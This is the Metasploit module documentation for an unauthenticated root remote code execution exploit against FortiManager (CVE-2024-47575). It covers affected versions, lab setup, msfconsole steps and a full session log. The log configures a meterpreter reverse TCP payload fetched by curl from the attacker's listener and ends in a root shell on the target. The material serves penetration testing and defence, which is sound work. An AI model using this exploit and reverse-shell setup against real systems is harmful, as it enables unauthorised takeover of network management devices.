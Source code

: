 ## Vulnerable Application
This module exploits a missing authentication vulnerability affecting FortiManager and FortiManager
Cloud devices to achieve unauthenticated RCE with root privileges.

For a full technical analysis, please see our
AttackerKB [Rapid7 Analysis](https://attackerkb.com/topics/OFBGprmpIE/cve-2024-47575/rapid7-analysis).

The vulnerable FortiManager versions are:
* 7.6.0
* 7.4.0 through 7.4.4
* 7.2.0 through 7.2.7
* 7.0.0 through 7.0.12
* 6.4.0 through 6.4.14
* 6.2.0 through 6.2.12

The vulnerable FortiManager Cloud versions are:
* 7.4.1 through 7.4.4
* 7.2.1 through 7.2.7
* 7.0.1 through 7.0.12
* 6.4 (all versions).

## Testing
You will need to acquire a firmware image for a suitable version of FortiManager. For example, to deploy FortiManager
`7.6.0` as a VM on HyperV, download the file `FMG_VM64_HV-v7.6.0.F-build3340-FORTINET.out.hyperv.zip`.
* Extract the contents of this archive. You will get a primary hard drive image `fmg.vhd`.
* In HyperV:
  * Create a new virtual machine with 4096 MB RAM and 1 vCPU.
  * Add 4 network adapters, the first must be connected to your external network (or similar) which can assigned an IP
via DHCP. The remaining 3 adapters can remain unconnected.
  * In the IDE controller, add a new hard drive and select the `fmg.vhd` image.
  * In the IDE controller, add a new hard drive and create an empty image (128GB). This is used by the device to store
data after setup.
  * Boot the machine.
* The console will display the FortiManager boot sequence and drop you to a login prompt. The default username is `admin`
and the default password is empty. After you log in as admin the first time, you will be instructed to set a new admin
password.
* After logging in, you will be dropped to a CLI shell. Run the command `get system interface port1` in order to
discover the IP address of your new FortiManager device.
* At this point you can successfully exploit an unlicensed FortiManager device. Alternatively you can acquire a trial
license of FortiManager and complete the setup by visiting `https://<FORTIMANAGER_IP>/` in your browser.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/misc/fortimanager_rce_cve_2024_47575`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set LHOST eth0`
5. `set LPORT 4444`
6. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
7. `check`
8. `exploit`

## Options
The exploit provides a suitable client certificate/key pair by default, however we can let a user configure
a different certificate/key pair to use if they want. The user can also override the serial number and
platform if needed, but the exploit will try to detect the serial number and platform from the certificate
by default.

### ClientCert
A file path to an x509 cert, signed by Fortinet, with a serial number in the CN

### ClientKey
A file path to the corresponding private key for the ClientCert.

### ClientSerialNumber
If set, use this serial number instead of extracting one from the ClientCert.

### ClientPlatform
If set, use this platform instead of determining the platform at runtime.

## Scenarios

### Default

```
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set RHOST 192.168.86.93
RHOST => 192.168.86.93
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set LPORT 4444
LPORT => 4444
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > show options

Module options (exploit/linux/misc/fortimanager_rce_cve_2024_47575):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   ClientCert                           no        A file path to an x509 cert, signed by Fortinet, with a serial number in the CN
   ClientKey                            no        A file path to the corresponding private key for the ClientCert.
   ClientPlatform                       no        If set, use this platform instead of determining the platform at runtime.
   ClientSerialNumber                   no        If set, use this serial number instead of extracting one from the ClientCert.
   RHOSTS              192.168.86.93    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                  metasploit.html
   RPORT               541              yes       The target port (TCP)


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GfogzcPTWbTb     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > check
[*] 192.168.86.93:541 - The service is running, but could not be validated. Detected Fortinet FortiManager
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] 192.168.86.93:541 - Client certificate common name: FMG-VM0000000000
[*] 192.168.86.93:541 - Using client serial number 'FMG-VM0000000000' and platform 'FortiManager-VM64'.
[*] 192.168.86.93:541 - Connecting...
[*] 192.168.86.93:541 - Registering device...
[*] 192.168.86.93:541 - Creating channel...
[*] 192.168.86.93:541 - Triggering...
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.93:16620) at 2024-11-15 12:48:15 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.93
OS           :  (Linux 5.15.109)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
